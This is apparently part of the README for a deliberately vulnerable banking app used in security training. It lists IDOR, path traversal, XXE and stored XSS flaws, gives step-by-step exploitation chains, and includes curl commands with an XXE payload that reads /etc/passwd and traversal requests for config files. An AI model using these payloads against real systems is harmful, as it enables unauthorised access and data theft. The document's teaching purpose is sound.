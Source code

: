 | Various | Stored XSS | **MEDIUM** | Via transaction descriptions |

## 🛡️ Exploitation Examples

### Complete IDOR Attack Chain
1. **Register**: `POST /api/auth/register`
2. **Login**: `POST /api/auth/login`
3. **Enumerate**: `GET /api/accounts` (see all accounts)
4. **Steal**: `POST /api/accounts/transfer` (transfer from any account)

### File System Access
1. **Enum**: `GET /api/files/list?directory=../../../`
2. **Read**: `GET /api/files/read/../../../etc/passwd`
3. **Exfiltrate**: `GET /api/files/download?filename=../../../application.properties`

### XXE Attack
1. **Recon**: `POST /api/xml/process` with XXE to read `/etc/passwd`
2. **Config**: Read application properties via XXE
3. **SSRF**: Use XXE for internal network scanning

## 🔧 Testing Tools Integration

### cURL Examples
```bash
# Test XXE
curl -X POST http://localhost:8080/api/xml/import \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE transaction [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><transaction><description>&xxe;</description></transaction>'

# Test Path Traversal  
curl "http://localhost:8080/api/files/read/../../../application.properties"
```

### Burp Suite Configuration
1. Set proxy to `127.0.0.1:8080`
2. Navigate to `http://localhost`
3. Login and intercept requests
4. Modify `fromAccountId` in transfer requests
5. Test path traversal in file endpoints

---

**Remember: These vulnerabilities are intentional and for educational use only!**
